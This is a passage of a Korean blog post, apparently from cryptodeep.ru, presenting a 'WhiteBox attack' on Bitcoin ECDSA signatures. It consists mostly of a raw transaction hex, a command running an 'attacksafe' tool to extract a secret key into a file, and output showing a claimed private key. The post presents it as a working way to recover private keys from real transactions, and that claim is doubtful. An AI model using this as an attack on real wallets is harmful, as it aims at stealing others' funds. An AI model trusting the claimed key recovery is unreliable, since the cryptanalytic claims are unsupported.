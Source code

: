 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool whitebox_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-37-1024x264.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1628"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool whitebox_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-38-1024x374.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1630"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e

RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>



